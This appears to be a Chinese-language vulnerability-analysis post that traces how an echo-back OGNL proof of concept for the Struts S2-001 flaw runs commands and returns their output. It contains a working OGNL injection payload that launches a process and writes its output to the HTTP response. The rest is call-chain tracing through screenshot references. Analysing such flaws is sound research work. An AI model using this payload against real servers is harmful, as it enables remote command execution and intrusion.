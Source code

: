 # POC

在struts的漏洞分析中,经常用到可回显POC,因为本人比较好奇其中的原理,便自己分析了一下,这里利用的时S2-001的环境,poc为

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"d://cmd.bat"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
//cmd.bat文件中写的命令为"calc",这样是为了既能看到命令执行的效果又能拥有返回值
```

流程从这里开始分析,然后调用OgnlValueStack#findValue

![image-20210811120250490](可回显poc/image-20210811120250490.png)

继续往里面跟

![image-20210811120312947](可回显poc/image-20210811120312947.png)

快进到ASTSequence#getValueBody,这里对children,进行遍历,依次进行解析

![image-20210811120612313](可回显poc/image-20210811120612313.png)

![image-20210811120716713](可回显poc/image-20210811120716713.png)

此时的调用链为:

![image-20210811120745227](可回显poc/image-20210811120745227.png)

```
getValue->evaluateGetValueBody->getValueBody
```

然后再getValueBody中`Object result = this.children[1].getValue(context, source);`成功执行我们的命令,并将返回值赋值给了result

![image-20210811115816548](可回显poc/image-20210811115816548.png)

![image-20210811121450466](可回显poc/image-20210811121450466.png)





![image-20210811124356057](可回显poc/image-20210811124356057.png)

![image-20210811124527879](可回显poc/image-20210811124527879.png)



![image-20210811123028415](可回显poc/image-20210811123028415.png)


